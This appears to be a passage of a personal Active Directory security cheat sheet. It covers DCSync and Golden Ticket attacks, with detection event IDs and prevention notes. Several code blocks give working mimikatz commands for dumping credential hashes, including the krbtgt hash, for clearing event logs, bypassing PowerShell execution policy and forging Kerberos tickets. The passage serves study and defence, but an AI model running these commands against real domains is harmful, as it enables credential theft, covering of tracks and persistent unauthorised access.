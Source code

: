 ```
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

- Prevention: 
  - detect + educate + automate

- Detection
  - ID 4624,4625,4771,4776/4625 (failed,success) | 4768 (TGT req) | 

- Honeypot:
  - store cred (fake/incorrect) in metadata + enabled account

### DCSync
- Goal: 
  - impersonate/simulate DC + replicate information + extract NTLM = pass-the-hash
  - Permissions: Replication Directory Change | All

- Path
```
# Cmd with user
runas /user:domain\user cmd.exe

# Extract TGT/PASS
mimikatz
lsadump::dcsync /domain:name.local /user:do\USERNAME | /all
```

- Prevention
  - 3rd party RPC Firewall

- Detection
  - ID: 4662
  - abnormal requests
  - Properties: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
  - Whitelisting system/accounts


### Golden Ticket
- Goal:
  - generate ticket acting as DC
  - password of krbtgt to derive key to sign Kerberos tickets = hash
  - Golden: maximum

- Path: all mimikatz

```
# Find hash
privilege::debug = use necessary privielges
event::drop = clear event log
kerberos::list = list tickets

lsadump::dcsync /domain: /user:krbtgt
lsadump::lsa /inject /name:USERNAME = extract hash fro mmemory

# Find Domain SID + User ID
powershell -exec bypass | Set-ExecutionPolicy Unrestricted -Scope CurrentUser
Get-DomainSID
Get-ADDomain 

# Create ticket 
## Golden: krbtgt hash
kerberos::golden 
/domain: name 
/sid: of domain 
```
